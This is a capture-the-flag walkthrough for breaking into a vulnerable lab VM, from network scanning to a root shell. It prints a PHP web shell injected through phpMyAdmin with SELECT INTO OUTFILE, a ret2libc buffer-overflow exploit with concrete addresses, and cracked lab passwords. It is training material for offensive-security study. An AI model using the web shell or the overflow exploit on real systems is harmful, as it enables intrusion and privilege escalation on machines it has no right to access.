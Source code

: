 When we've set up our .iso file we will see this:

We need to understand what exactly we are going to "hack".
### 1. Using ifconfig to see the active interfaces, virtual boxes
   `ifconfig`:<br/>
    ![ifconfig](screens/1.jpg)
    
### 2. Using nmap to see which ports are open for the VM and what exact ip address it located at 
   `nmap 192.168.12.1-255`:<br/>
   ![nmap](screens/nmap.jpg)
      
   We see that port 80 accessible through the browser

### 3. Put this 192.168.12.128 into the browser address field and you will get a simple page:<br/>
      ![web_page](screens/web_page.jpg)
      
### 4. Now we can use DIRB - scaner of the web content which can find possibly hidden information of the page using it's library:<br/>
   * `./dirb http://192.168.12.128 wordlist/common.txt -w`<br/>
       output gives us a possibility to see the "forum" folder and some other which are not really relevant:<br/>
       ![dirb](screens/dirb.jpg)<br/>
       Though http://192.168.12.128/forum not found in browser

   * lets try ssl version of the site<br/>
       `./dirb http://192.168.12.128 wordlist/common.txt -w`<br/>
       and we get much more info now, but there are few main folders:<br/>
       ![dirb_https](screens/dirb_https.jpg)<br/>
       https://192.168.12.128/forum<br/>
       https://192.168.12.128/webmail<br/>
       https://192.168.12.128/phpmyadmin<br/>

### 5. First checking out the "forum" folder, proceeding in the browser to https://192.168.12.128/forum <br/>
   * We see few topics, checking first one with login problem, looks like the log outpit of log in attempts, one line contains some symbols that are looking like a password:<br/>   
   ![forum_log_pass](screens/forum_log_pass.jpg)<br/>
   assuming that it was log in try we can think that it's user password, probably the one who created the topic<br/>
   
   * Log in functionality is present on a forum, as well as users tab:<br/>
   ![users](screens/forum_users.jpg)<br/>
   there are not so much users, so we going to try to login with credentials of them and this password that we have<br/>
   the try to login with lmezard and password that we've found was successfull<br/>
   ![user_profile](screens/forum_user_profile.jpg)<br/>
   Keep in mind that we have access to the "webmail" page and we see the email of the user
       
### 6. Going to check the webmail page
   * trying if user email that we found and password that we used to login are matching, seems it works<br/>
   ![web_mailer](screens/web_mailer.jpg)<br/>
   * inbox contains 2 emails, one is very interesting, but another one contains root DB access, which seems more relevant to us necause we remember that we have "phpmyadmin" page on a site<br/>
   ![inbox](screens/inbox.jpg)<br/>
   ![db_access_mail](screens/db_access_mail.jpg)<br/>

### 7. phpmyadmin investigation
   * lets try to login with credentials that we've got<br/>
   * using suggestions from this topic http://www.informit.com/articles/article.aspx?p=1407358&seqNum=2 we are going to inject php file that allows us to run a shell commands from browser<br/>
   * During several attemtps of the injection files into different known folders that exist on the site, we were finally able to make a needed injection into the "temaplates_c" folder<br/>
    `SELECT "<? System($_REQUEST['cmd']); ?>" into outfile "/var/www/forum/templates_c/cmd.php";`<br/>
    ![db_injection](screens/db_injection.jpg)<br/>
    
### 8. thanks to the tutorial we can now use shell commands of the server from the browser 
   * which gives us the possibility to find credentials to access the server found in password file in LOOKATME folder<br/>
   ![bash_in_browser](screens/bash_trough_browser.jpg)<br/>
   * looks like an ssh or ftp access <br/>
   ![lmezard_password](screens/lmezard_password.jpg)<br/>
   
### 9. trying to ge access
   * ssh (unsucessfull)<br/>
   ![ssh_try](screens/ssh_try.jpg)<br/>
   * ftp (sucessfull)<br/>
   * we can see two files, get them<br/>
   ![ftp_try](screens/ftp_try.jpg)<br/>
   * readme contains some hint for us<br/>
   ![ftp_readme](screens/ftp_readme.jpg)<br/>
   * fun is archive, after decompression it contains a lot of `.pcap` files<br/>
   ![fun_file_type](screens/fun_file_type.jpg)<br/>
   ![extracted_fun](screens/extracted_fun.jpg)<br/>
   * using cat command for fun file we can see simple c programm that outputs 12 letters and says it's the password, there are also function calls get_me#() from 1 to 12 each returns letter</br>
   ![cat_fun_hint](screens/cat_fun_hint.jpg)<br/>
   * we found out that archive 8 files return the values from the password<br/>
   ![grep_return_pass_vals](screens/grep_return_pass_vals.jpg)<br/>
     lets sort them according to numbers inside and we will get the order:<br/>
     ![files_to_order](screens/files_to_order.jpg)<br/>
       ***APM1E** I<br/>
       **ZPY1Q** h<br/>
       **ECOW1** e<br/>
       **7DT5Q** a<br/>
       **T7VV0** r<br/>
       **J5LKW** t<br/>
       **T44J5** p<br/>
       **BJPCP** wnage<br/>*
     now we see that the password "Iheartpwnage" looks like case sensetive
   * In fun archive we also saw hint about SHA256, lets encode our password to SHA256    `330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4`
   * and try to ssh on the server with `laurie@192.168.12.128` and password
   
### 10. We are successfully ssh with laurie user
* we see the README file that gives us a hint how to get password for the ssh access with user "thor"
![bomb_readme_hint](screens/bomb_readme_hint.jpg)<br/>
* disasemple bomb file and we see 6 functions
  * **Phase_1** pushes value to the stack 0x80497c0, which is "Public speaking is very easy." Also hint says that password has no spaces and case sensetive, modifing string and getting first part of out password: `Publicspeakingisveryeasy.`
  * **Phase_2** function 'read_six_numbers' and the string '%d %d %d %d %d %d' at the address 0x08049b1b. We assume that first number is 1, the others are multiples by the last number in the sequense so we have to do it 6 times according to the string. 1*1 2*1 2*3 6*4 24*5 120*6 so the next part of our password is: `12624120720`
  * **Phase_3** contains the string "%d %c %d" before the call of sscanf function, hint has given us that the character passed to the function should be `b`, so it gives us the solution of "1 b 214", next part of the password is "1b214"
  * **Phase_4** contains the string "%d" before the call of sscanf function, after the call eax must be equal to 0x37 which is 55, so the number passed to the function we get by inversing the assembly code "9"
  * **Phase_5** contains the tring "giants" at the address 0x804980b. we also see string isrveawhobpnutfg\260\001 at the address 0x804b220, and a programm gives us a hint to exchange the letters from giants to once from that string and we get `opekmq`
  * **Phase_6** the programm read_six_numbers and a hint gives us number 4, we also see 6 nodes {253} -> {725} -> {301} -> {997} -> {212} -> {432}, 4-th of the is the biggest, lets assume that we need to order them in descending order then our password part will be: `426315` though according to the forum we must swap 3 and 1 in last part to get the access<br/> <br/>
The password in the end: `Publicspeakingisveryeasy.126241207201b2149opekmq426135`

### 11. ssh thor@192.168.12.128 
* We see the README and turtle files
* README suggests us to login with user zaz
* the turtle file is a draw map which is python module, see our programm to draw it out main.py 
* it gives us the word SLASH<br/>
![slash](screens/slash.jpg)<br/>

### 12. ssh zaz@192.168.12.128
* trying password SLASH, does not work
* sha256 encryption of SLASH does not work eather
* md5 does work<br/>
![md5_pass](screens/md5_pass.jpg)<br/>

### 13. we find a file exploit_me and it has a root rights
* If we open exploit_me into gdb we notice that we can use a buffer overflow attack and overwrite the EIP register due to the use of an unprotected strcpy.
* Playing around with the command line we can make the program crash at 140 bytes.<br/>
`./exploit_me $(python -c "print('A' * 140)")`

### 14. we need to exploit
* `./exploit_me $(python -c "print('A' * 140 + '\xb7\xe6\xb0\x60'[::-1] + 'AAAA' + '\xb7\xf8\xcc\x58'[::-1])")`<br/>
   `id`<br/>
   uid=1005(zaz) gid=1005(zaz) euid=0(root) groups=0(root),1005(zaz)<br/>
   gives us root permissions using a well know security risk on strcpy which provides us with the possiblity to user ret2libc atack, very well known attack
    
